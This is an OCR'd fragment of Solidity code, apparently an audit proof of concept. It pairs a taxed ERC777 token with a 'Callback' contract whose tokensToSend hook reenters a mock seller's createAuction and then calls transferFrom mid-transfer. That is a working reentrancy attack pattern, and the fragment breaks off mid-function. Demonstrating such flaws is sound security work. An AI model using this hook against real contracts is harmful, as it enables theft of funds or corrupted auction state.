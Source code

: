         }

        function _send(
            address from,
            address to,
            uint256 amount,
            bytes memory userData,
            bytes memory operatorData,
            bool requireReceptionAck
        ) internal override {
            uint tax_amount = amount* tax / 100;
            _burn(from, tax_amount, "", "");
            super._send(from, to, amount-tax_amount, userData, operatorData, requireReceptionAck);
        }

    }

    contract Callback {
        MockSeller seller;
        uint128 baseToSell;

        uint256 reserveQuotePerBase = 0.5e6 * uint256(type(uint128).max) / 1e18;
        uint128 minimumBidQuote = 1e6;
        // Auction parameters (cliff unlock)
        uint32 startTime;
        uint32 endTime;
        uint32 unlockTime;
        uint32 unlockEnd;
        uint128 cliffPercent;

        uint8 entry = 0;
        uint128 amount_cut_tax;
        constructor(MockSeller _seller, uint128 _baseToSell, uint256 _reserveQuotePerBase, uint128 _minimumBidQuote, uint32 _startTime, uint32 _endTime, uint32 _unlockTime, uint32 _unlockEnd, uint128 _cliffPercent){
            seller = _seller;
            baseToSell = _baseToSell;
            reserveQuotePerBase = _reserveQuotePerBase;
            minimumBidQuote = _minimumBidQuote;
            startTime = _startTime;
            endTime = _endTime;
            unlockTime = _unlockTime;
            unlockEnd = _unlockEnd;
            cliffPercent = _cliffPercent;
        }
        function tokensToSend(address operator, address from, address to, uint256 amount, bytes calldata userData, bytes calldata operatorData) external{
            if(from==address(0) || to==address(0)){return;}
            if(entry == 0){
                entry += 1;
                amount_cut_tax = baseToSell / 2;
                seller.createAuction(
                    amount_cut_tax, reserveQuotePerBase, minimumBidQuote, startTime, endTime, unlockTime, unlockEnd, cliffPercent
                );
                return;
            }
            else if(entry == 1){
                entry += 1;
                ERC777(msg.sender).transferFrom(from, to, amount_cut_tax);
                return;
            }
            entry += 1;
            return;
            